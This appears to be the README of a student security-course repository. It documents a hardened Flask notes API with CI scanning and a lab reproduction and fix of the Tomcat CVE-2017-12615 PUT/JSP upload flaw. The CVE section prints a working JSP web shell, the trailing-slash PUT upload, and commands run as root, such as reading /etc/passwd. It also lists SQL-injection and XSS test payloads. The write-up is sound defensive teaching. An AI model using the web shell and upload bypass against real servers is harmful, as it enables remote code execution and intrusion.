





# Secure Notes API — Internet Security Work 1

[](https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/workflows/ci.yml)

A small REST API that demonstrates secure backend development: parameterized
database access, output escaping, bcrypt password hashing, JWT authentication,
and automated security scanning in CI/CD.

The project accompanies **Work 1: Secure REST API Development with CI/CD and
Real CVE Vulnerability Analysis** (HDU Internet Security).

---

## 1. Technology stack

| Layer | Choice |
|---|---|
| Language / framework | Python 3.12+ / Flask 3.1 |
| Database | SQLite via SQLAlchemy ORM (Flask-SQLAlchemy) |
| Authentication | JWT (PyJWT, HS256) + bcrypt password hashes |
| Tests | pytest, pytest-cov |
| CI/CD | GitHub Actions |
| SAST | Bandit |
| SCA | pip-audit (PyPI advisory database / OSV) |

## 2. Project structure

```
.
├── .github/workflows/ci.yml   # CI: tests + Bandit (SAST) + pip-audit (SCA)
├── vulhub-fix/                # fixed Dockerfile/compose for CVE-2017-12615
├── report/                    # full laboratory report (PDF + HTML source)
├── docs/cve/evidence/         # raw output from the CVE reproduction
├── docs/screenshots/          # CI and CVE screenshots
├── app/
│   ├── __init__.py            # application factory, configuration, security headers
│   ├── auth.py                # POST /auth/login
│   ├── api.py                 # protected /api endpoints and output escaping
│   ├── security.py            # bcrypt, JWT, jwt_required middleware, rate limiter
│   ├── models.py              # User and Note models
│   ├── errors.py              # consistent JSON error responses
│   ├── cli.py                 # `seed-demo` management command
│   └── extensions.py          # shared SQLAlchemy instance
├── tests/                     # 31 automated tests
├── requirements.txt           # pinned runtime dependencies
├── requirements-dev.txt       # pinned test/security tooling
├── run.py                     # development entry point
└── .env.example               # documented environment variables
```

## 3. Running the application

```bash
python -m venv .venv
# Windows: .venv\Scripts\activate
# Linux/macOS: source .venv/bin/activate

pip install -r requirements-dev.txt

# A secret must be provided; the app generates an ephemeral development one
# when JWT_SECRET is absent, but tokens then die on restart.
export JWT_SECRET="$(python -c 'import secrets; print(secrets.token_hex(32))')"   # Linux/macOS
# Windows PowerShell: $env:JWT_SECRET = -join ((1..64) | ForEach-Object { '{0:x}' -f (Get-Random -Max 16) })

# Create demo users (alice/bob) and notes
export DEMO_PASSWORD="AliceDemo123!"
flask --app run seed-demo

# Start the server on http://127.0.0.1:5000
python run.py
```

### Environment variables

| Variable | Default | Purpose |
|---|---|---|
| `JWT_SECRET` | ephemeral random value in development | HMAC key used to sign JWTs. **Required** when `APP_ENV=production`. |
| `JWT_EXPIRES_SECONDS` | `3600` | Access-token lifetime. |
| `DATABASE_URL` | `sqlite:///app.db` | SQLAlchemy database URL. |
| `APP_ENV` | `development` | `production` makes a missing `JWT_SECRET` fatal. |
| `DEMO_PASSWORD` | generated and printed | Password assigned by `seed-demo`. |
| `PORT` | `5000` | Development server port. |

## 4. API reference

All request and response bodies are JSON. Protected endpoints require
`Authorization: Bearer <token>`.

| Method | Path | Auth | Description |
|---|---|---|---|
| `POST` | `/auth/login` | no | Validate credentials and issue a JWT. |
| `GET` | `/api/data` | yes | List notes owned by the authenticated user. Optional `?search=` filter. |
| `GET` | `/api/data/<id>` | yes | Read one note owned by the authenticated user. |
| `POST` | `/api/data` | yes | Create a note for the authenticated user (third endpoint). |
| `GET` | `/api/users/me` | yes | Return the authenticated user's profile. |
| `GET` | `/health` | no | Liveness probe. |

### 4.1 Login

```bash
curl -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"AliceDemo123!"}'
```

```json
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 3600
}
```

Invalid credentials return `401` with a deliberately generic message.
Malformed input returns `400`; more than five failed attempts per minute for
the same IP/username pair returns `429` with `Retry-After`.

### 4.2 List notes

```bash
TOKEN="<access_token from login>"

curl http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer $TOKEN"
```

```json
{
  "count": 2,
  "notes": [
    {"id": 2, "title": "Shopping list", "content": "Coffee, tea, and a secure API.", "created_at": "..."},
    {"id": 1, "title": "Welcome to Secure Notes", "content": "This note belongs to alice.", "created_at": "..."}
  ]
}
```

Notes are always filtered by `owner_id = <authenticated user>`. Adding
`?search=term` performs a parameterized `ILIKE` search inside that set.

### 4.3 Read one note

```bash
curl http://127.0.0.1:5000/api/data/1 -H "Authorization: Bearer $TOKEN"
```

A note that exists but belongs to another user returns `404`, so the API does
not disclose the existence of other users' records.

### 4.4 Create a note (third endpoint)

```bash
curl -X POST http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"title":"Homework","content":"Finish the security lab."}'
```

The response is `201 Created`. `title` is limited to 120 characters and
`content` to 5000; both must be non-blank strings.

### 4.5 Current user

```bash
curl http://127.0.0.1:5000/api/users/me -H "Authorization: Bearer $TOKEN"
```

### 4.6 Error format

Every error uses the same shape, including framework errors such as 404, 405
and 413:

```json
{"error": "unauthorized", "message": "A Bearer token is required."}
```

## 5. Implemented security measures

### 5.1 SQL injection protection

* **ORM everywhere.** All database access goes through SQLAlchemy
  (`select(Note).where(...)`, `db.session.get(...)`); there is no string-built
  SQL and no `text()` with interpolated values anywhere in `app/`.
* **Bound parameters.** The only dynamic value in a query is the search term:

  ```python
  pattern = f"%{search}%"
  stmt = stmt.where(or_(Note.title.ilike(pattern), Note.content.ilike(pattern)))
  ```

  SQLAlchemy sends `pattern` as a bound parameter (`?` / `:param_1`), so quotes,
  `--` and `OR 1=1` in the value are treated as data, never as SQL syntax.
* **Owner filter is structural.** Every note query includes
  `Note.owner_id == g.current_user.id`, which also prevents IDOR / horizontal
  privilege escalation.
* **Input validation.** Login usernames must match
  `^[A-Za-z0-9_.-]{3,32}$`, passwords are length-checked, search is truncated to
  100 characters, and note fields are type- and length-checked before use.
* **Login is injection-proof by construction:** the account lookup
  `User.username == username` is a bound ORM comparison. Payloads such as
  `alice' OR '1'='1` are rejected by the username whitelist (or, if they ever
  passed it, would simply match no user).

Test evidence: `test_sql_injection_in_search_does_not_bypass_owner_filter`,
`test_sql_injection_login_payload_cannot_authenticate`,
`test_wildcard_search_cannot_escape_owner_filter`.

### 5.2 XSS protection

* **Output escaping with the framework's built-in escaper.** Every
  user-controlled string is passed through `markupsafe.escape()` when a
  response is serialized (`app.security.sanitize`, used by `_note_json` and
  `/api/users/me`):

  ```python
  from markupsafe import escape

  def sanitize(value: str) -> str:
      return str(escape(value))
  ```

  Stored data is kept intact — escaping happens at the output boundary, which
  is the correct context-aware approach. For example:

  ```
  input:    <script>alert(1)</script>
  response: &lt;script&gt;alert(1)&lt;/script&gt;
  ```

* **JSON-only responses.** The API never reflects input into HTML; JSON
  responses are sent with `Content-Type: application/json`, so a browser will
  not interpret them as markup.
* **Defence-in-depth headers** on every response:
  `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`,
  `Referrer-Policy: no-referrer`, and
  `Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`.
* **Strict input validation** limits payload size and shape (`MAX_CONTENT_LENGTH`
  of 16 KiB, title/content length limits).

Test evidence: `test_xss_payload_is_escaped_in_responses`.

### 5.3 Authentication and password storage

* **bcrypt hashing.** Passwords are hashed with bcrypt using a per-password
  salt and cost factor 12 (`bcrypt.gensalt(rounds=12)`); only the hash is
  stored. bcrypt is intentionally slow and salted, which makes offline
  brute-force and rainbow-table attacks impractical. Plaintext is never
  logged or persisted. bcrypt's 72-byte input limit is enforced.
* **JWT issuing.** A successful login returns an HS256 JWT with `sub`, `iss`,
  `iat` and `exp` claims; the default lifetime is one hour.
* **JWT verification middleware.** `@jwt_required` (in `app/security.py`)
  protects every `/api/*` route and:
  * requires the `Authorization: Bearer` scheme;
  * verifies the HMAC signature with a server-side secret;
  * uses an explicit algorithm allow-list (`HS256`), rejecting `alg=none` and
    algorithm-confusion attacks;
  * validates the issuer and requires `sub`/`iss`/`iat`/`exp`;
  * rejects expired or malformed tokens;
  * loads the user from the database, so tokens for deleted users fail.
* **No user enumeration.** Unknown users run a dummy bcrypt verification and
  receive the same status and message as a wrong password; login responses are
  marked `Cache-Control: no-store`.
* **Brute-force throttling.** Five failures per 60 seconds per IP+username are
  allowed; further attempts return `429` with `Retry-After`.
* **Secret management.** `JWT_SECRET` comes from the environment. In
  production (`APP_ENV=production`) the application refuses to start without
  it; development only uses an ephemeral random fallback.

Test evidence: `test_login_returns_valid_jwt`, `test_expired_token_is_rejected`,
`test_alg_none_token_is_rejected`, `test_tampered_signature_is_rejected`,
`test_password_is_stored_as_bcrypt_hash`, `test_login_is_rate_limited_after_repeated_failures`.

### 5.4 Additional hardening

* Ownership checks on every note (404 instead of 403 to avoid existence leaks).
* Request-body size cap (16 KiB) and bounded search/field lengths.
* Uniform JSON errors with no stack traces; unexpected exceptions are logged
  server-side only.
* Security headers applied globally in an `after_request` hook.
* Fully pinned dependencies for reproducible, auditable builds.

## 6. Testing

```bash
pytest -q --cov=app --cov-report=term-missing
```

Current result: **31 passed**, **85% statement coverage** (100% of `api.py`,
`auth.py`, `models.py`). The suite covers authentication, JWT validation
(missing-tampered-expired-wrong-algorithm), bcrypt storage, SQLi payloads,
XSS escaping, ownership isolation, validation, rate limiting and error
handling.

## 7. CI/CD security pipeline

Workflow: [`.github/workflows/ci.yml`](.github/workflows/ci.yml), triggered on
every push and pull request to `main` (and manually via `workflow_dispatch`).

| Job | Tool | What it does |
|---|---|---|
| `tests` | pytest + coverage | Runs the full test suite; uploads `coverage.xml`. |
| `sast` | Bandit | Static analysis of `app/`; fails on medium/high findings; uploads `bandit-report.txt`. |
| `sca` | pip-audit | Audits pinned dependencies against PyPI/OSV vulnerability data; fails if any known vulnerability is found; uploads `pip-audit-report.json`. |

Run the scanners locally with:

```bash
bandit -r app -ll
pip-audit -r requirements.txt
```

Local results at the time of writing:

```
Bandit:   No issues identified.  (0 low, 0 medium, 0 high; 508 lines scanned)
pip-audit: No known vulnerabilities found (12 dependencies audited)
```

### CI evidence



| SAST job (Bandit) | SCA job (pip-audit) |
|---|---|
|  |  |

The exact reports downloaded from the run are committed for review:

* [`docs/ci/bandit-report.txt`](docs/ci/bandit-report.txt) — **No issues identified** (0 low, 0 medium, 0 high; 508 lines scanned).
* [`docs/ci/pip-audit-summary.txt`](docs/ci/pip-audit-summary.txt) — **12 dependencies audited, 0 with known vulnerabilities**.
* [`docs/ci/pip-audit-report.json`](docs/ci/pip-audit-report.json) — machine-readable SCA report.

> GitHub requires an authenticated session to render raw job logs, so the
> screenshots show the public job status and step list; the verbatim report
> contents are committed alongside them.

Pipeline run and artifacts:

* Workflow: [Actions → CI](https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/workflows/ci.yml)
* Last successful run: [CI run #39352597970](https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/runs/39352597970) —
  **Tests (pytest) ✅, SAST (Bandit) ✅, SCA (pip-audit) ✅**
* Artifacts produced by the run: `coverage-report`, `bandit-report`,
  `pip-audit-report`.

<!-- Screenshots of the Actions reports are stored under docs/screenshots/. -->

## 8. CVE analysis: CVE-2017-12615 (Tomcat DefaultServlet PUT / JSP upload)

### 8.1 Selected vulnerability

| Property | Value |
|---|---|
| CVE | **CVE-2017-12615** — Apache Tomcat `DefaultServlet` PUT / JSP upload remote code execution |
| CVSS v3.1 | **8.1 High** — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| Vulnerable component | Tomcat `DefaultServlet`, HTTP PUT enabled via `readonly=false` |
| Affected releases | NVD: Tomcat 7.0.0–7.0.79 on Windows. Vulhub demonstrates the same PUT/JSP-upload weakness on **Tomcat 8.5.19**. The related bypass **CVE-2017-12617** affects 8.5.0–8.5.22 and was fixed in 8.5.23. |
| Vulhub environment | `tomcat/CVE-2017-12615` |
| Impact | Unauthenticated write of an executable JSP into the web root → remote code execution as the Tomcat user (root in this image) |

It was chosen because the reproduction needs only a build plus two HTTP
requests, the principle is simple (insecure DefaultServlet configuration plus
an incomplete filename-suffix check), and the impact is unambiguous RCE.

### 8.2 Vulnerable environment and reproduction

```bash
docker compose -f vulhub/tomcat/CVE-2017-12615/docker-compose.yml \
  --project-directory vulhub/tomcat/CVE-2017-12615 up -d --build
```

> The configured Docker Hub mirrors rejected the `vulhub/tomcat:8.5.19`
> reference (403 / not in allowlist). The official `tomcat:8.5.19-jre8` image
> was pulled and locally tagged as `vulhub/tomcat:8.5.19`; the Vulhub
> Dockerfile was used unchanged and still injects `readonly=false`.

Confirmed environment:

```
Server version: Apache Tomcat/8.5.19
Server built:   Jul 24 2017 21:01:14 UTC
119:<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>
uid=0(root) gid=0(root) groups=0(root)
```

Payload (a minimal JSP command runner):

```jsp
<%@ page contentType="text/plain;charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null && cmd.length() > 0) {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        InputStream in = p.getInputStream();
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] buf = new byte[4096];
        int n;
        while ((n = in.read(buf)) != -1) out.write(buf, 0, n);
        response.getWriter().print(out.toString("UTF-8"));
    }
%>
```

**Step 1 — upload the JSP through PUT.** The trailing slash bypasses the
`.jsp` suffix check while the filesystem creates `shell.jsp`:

```bash
curl -i -X PUT "http://127.0.0.1:8080/shell.jsp/" \
     --data-binary "@shell.jsp" \
     -H "Content-Type: application/octet-stream"
# HTTP/1.1 201
```

**Step 2 — execute commands as root:**

```bash
curl "http://127.0.0.1:8080/shell.jsp?cmd=id"
# uid=0(root) gid=0(root) groups=0(root)

curl -G "http://127.0.0.1:8080/shell.jsp" \
     --data-urlencode "cmd=cat /etc/passwd"
# root:x:0:0:root:/root:/bin/bash ...

curl -G "http://127.0.0.1:8080/shell.jsp" \
     --data-urlencode "cmd=touch /tmp/pwned_by_cve_2017_12615; ls -l /tmp/pwned_by_cve_2017_12615"
# -rw-r----- 1 root root 0 ... /tmp/pwned_by_cve_2017_12615
```



### 8.3 Root cause analysis

1. **Insecure configuration.** `DefaultServlet` is mapped to `/` and its
   secure default is `readonly=true`. The Dockerfile explicitly injects
   `readonly=false`, turning a read-only static-file servlet into an
   unauthenticated file-upload interface.
2. **Incomplete dangerous-extension check (canonicalisation flaw, CWE-434).**
   Tomcat rejects filenames ending in `.jsp`, but the check operates on the
   request path without reconciling it with the path the filesystem will
   create. A trailing `/` bypasses the suffix test; the OS removes the trailing
   separator when creating the file, so a JSP lands in the web root.
3. **The uploaded file is executable by design.** The file is written into
   `webapps/ROOT`; a later GET is compiled and executed by the JSP servlet
   without any additional authorisation.
4. **Root process (aggravating factor).** Tomcat runs as root in this image,
   so the web shell escalates to root inside the container.

In short: the server was configured to accept writes it should never accept,
and the only remaining protection — a filename suffix blacklist — was bypassed
because the server validated one representation of the path while the
filesystem used another.

### 8.4 Applied fix

The fix is in [`vulhub-fix/`](vulhub-fix/) (`Dockerfile`,
`docker-compose.yml`, `diff.patch`, `README.md`):

1. **Version upgrade:** `tomcat:8.5.23-jre8`. Tomcat 8.5.23 contains the fix
   for **CVE-2017-12617**, the bypass of the CVE-2017-12615 remediation
   (affected 8.5.0–8.5.22).
2. **Configuration fix:** the insecure `readonly=false` override is removed;
   `DefaultServlet` keeps its secure default `readonly=true`, so PUT/DELETE are
   rejected.
3. **Defence in depth:** keep PUT disabled on static-file servlets, run Tomcat
   as a non-root user, and monitor the web root for unexpected files.

```diff
-FROM vulhub/tomcat:8.5.19
-
-RUN cd /usr/local/tomcat/conf \
-    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | awk '{print $1}') \
-    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
-    && sed -i "$LINE i $ADDON" web.xml
+FROM tomcat:8.5.23-jre8
+# readonly remains at its secure default (true); PUT/DELETE are rejected.
```

### 8.5 Proof of elimination and regression testing

The vulnerable environment was stopped (`docker compose down`) and the fixed
environment rebuilt. Repeating the exact same steps gives:

```
Server version: Apache Tomcat/8.5.23
no readonly init-param (secure default true)

PUT /shell.jsp/           -> HTTP/1.1 403 Forbidden
GET  /shell.jsp?cmd=id    -> HTTP 404
GET  /                    -> HTTP 200   (regression)
GET  /docs/               -> HTTP 200   (regression)
```

The webshell is never written, so it cannot be executed. At the same time the
default Tomcat page and the documentation webapp still work, which demonstrates
that the fix did not break normal functionality.



Raw command output is committed under [`docs/cve/evidence/`](docs/cve/evidence/).
The full report is [`report/Work1_Report.pdf`](report/Work1_Report.pdf).

## 9. Repository

* Public repository: <https://github.com/ynjlzxpl/hdu-internet-security-work1>
* Last successful pipeline:
  <https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/runs/39352597970>
* Laboratory report: [`report/Work1_Report.pdf`](report/Work1_Report.pdf)
* Fix folder: [`vulhub-fix/`](vulhub-fix/) (Dockerfile, docker-compose.yml, diff.patch)
* CVE reproduction evidence: [`docs/cve/evidence/`](docs/cve/evidence/)
* CI security reports: [`docs/ci/`](docs/ci/)
